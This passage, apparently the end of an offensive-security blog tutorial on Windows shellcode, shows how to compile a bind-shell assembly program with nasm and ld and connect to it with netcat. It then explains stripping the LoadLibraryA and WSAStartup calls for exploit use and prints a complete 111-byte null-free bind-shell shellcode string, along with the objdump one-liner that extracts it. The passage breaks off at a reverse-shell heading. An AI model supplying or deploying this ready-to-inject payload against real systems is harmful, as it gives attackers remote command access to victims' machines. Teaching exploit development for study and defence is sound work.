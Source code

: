 ### Compilation

Time to compile this thing. This can be done on Windows by downloading the following tools: 

+ <a href="http://mingw.org/category/wiki/download">ld.exe</a>
+ <a href="https://www.nasm.us/pub/nasm/releasebuilds/">nasm.exe</a>

```
> nasm.exe -f win32 -o bind.obj bind.asm
> ld.exe bind.obj -o bind.exe
```

Or you can cross-compile this on a Linux box:
```
$ nasm -f win32 bind.asm -o bind.o
$ ld -m i386pe bind.o -o bind.exe
```

### Verify standalone executable

Simply double click on the executable and a cmd terminal will appear.  
![_config.yml]({{ site.baseurl }}/images/bindshell2.png)

Connect to it using netcat and we got a shell!  
![_config.yml]({{ site.baseurl }}/images/bindshell1.png)

If we were going to use the shellcode as a payload for an exploit, then we can easily reduce the size by removing the code to load the socket library (LoadLibraryA()) and the socket startup call (WSAStartup()). This is because the target vulnerable software probably has already loaded the ws2_32.dll library and ran a socket startup call. This can be confirmed with the following command, which will display all loaded DLLs by the executable:

```
> tasklist.exe /m /fi "imagename eq vulnerable.exe"
```

### Exploitation ready bind shell (111 bytes)

Compiled without LoadLibraryA() and WSAStartup().

```
$ for i in $(objdump -d shell.exe | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x50\x50\x50\x50\x6a\x01\x6a\x02\xb8\x6a\x8b\xab\x71\xff\xd0\x89\xc3\x31
\xc0\x50\xb8\x02\x01\x11\x5c\xfe\xcc\x50\x89\xe0\x6a\x10\x50\x53\xb8\x80\x44\xab
\x71\xff\xd0\x6a\x01\x53\xb8\xd3\x8c\xab\x71\xff\xd0\x31\xc0\x50\x50\x53\xb8\x40
\x10\xac\x71\xff\xd0\x89\xc3\xba\x63\xd3\x81\x7c\x53\x6a\xf6\xff\xd2\x53\x6a\xf5
\xff\xd2\x53\x6a\xf4\xff\xd2\xc7\x44\x24\xfb\x41\x63\x6d\x64\x8d\x44\x24\xfc\x8d
\x64\x24\xfc\x50\xb8\xc7\x93\xc2\x77\xff\xd0
```

111 bytes. No null bytes. Beautiful, isn't it?


# Building the reverse shell (port 4444)
